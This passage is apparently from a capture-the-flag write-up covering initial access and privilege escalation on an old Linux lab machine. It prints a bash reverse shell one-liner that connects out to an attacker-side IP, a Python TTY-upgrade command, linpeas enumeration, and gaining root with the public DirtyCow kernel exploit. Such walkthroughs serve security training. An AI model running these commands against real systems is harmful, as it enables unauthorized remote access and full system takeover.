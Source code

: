 ```
bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"
```

quick reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909175454.png)

Now grab user flag

## Privilege Escalation

While I was checking for flag I found interesting zip file in george directory
Let's check it befor launching linpeas.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909175607.png)

and nothing intesting here, just site in zip
Next upgrade to TTY shell and run linpeas

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This is old machine so should be a lot of vectors

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182740.png)

outdated system so will be many kernel exploits, sudo outdated but we cannot run

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182721.png)

and mysql running as root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182616.png)

Ok let's start 
A lot of kernel exploits

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182959.png)

I like dirtyCow and didn't use it for a while so let's do it this way:
https://github.com/firefart/dirtycow
clone, send to machine compile like in readme.md and we have root access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909183833.png)

now su or ssh 


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909183815.png)
